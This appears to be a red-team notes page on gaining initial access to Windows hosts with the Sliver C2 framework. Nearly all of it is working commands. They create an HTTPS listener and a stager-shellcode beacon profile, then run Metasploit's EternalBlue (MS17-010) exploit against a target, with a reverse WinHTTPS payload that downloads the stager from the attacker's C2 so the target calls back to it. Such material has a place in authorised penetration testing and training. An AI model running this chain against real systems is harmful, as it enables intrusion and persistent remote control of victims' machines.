 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - sliver
  - windows
---
```

# Sliver

> [!NOTE]
> This section is subjected to change with different exploits as they get patched as time passes.

This is similar to [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Exploit Vulnerable Service/Cobalt Strike|cobalt strike]] exploitation setup. However, it requires less effort to exploit the vulnerable services.

```
sliver > https -l 443

sliver > profiles new beacon -b https://<IP> -S 5 -J 10 -l -a x64 -o windows -f shellcode stager-shellcode
```

Depending on the listener (or shell handler) type. If the schema is set to HTTPS (`https://<attacker_IP>`) then use `windows/x64/custom/reverse_winhttps` as a payload in #metasploit-framework for an HTTPS stager. If the schema doesn't have TLS encryption (`http://<attacker_IP>`) then use `windows/x64/custom/reverse_winhttp` for an HTTP stager.

```
sliver > stage-listener -u http://<IP>:8080 -P -p stager-shellcode
```

We'll be using eternablue as an example.

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```

Depending on the listener (or shell handler) type. Set the payload to `windows/x64/custom/reverse_winhttps` for an HTTPS beacon network traffic. If you're using HTTP beacon network traffic without TLS (encrypted packets) then set the payload to `windows/x64/custom/reverse_winhttp`. You're not really delivering `meterpreter` session.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/custom/reverse_winhttps

msf6 exploit(windows/smb/ms17_010_eternalblue) > options
```

Set the target's IP address.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts <target_IP>
```

Specify the C2's IP address and port. This will receive from a sliver's payload staging. You’re telling #metasploit-framework in this case to download an HTTPS stager from sliver.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost <sliver_C2_IP>

msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport 8080

msf6 exploit(windows/smb/ms17_010_eternalblue) > set luri /beacon.woff
```

Exploit the target and you should receive an agent callback on your C2.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```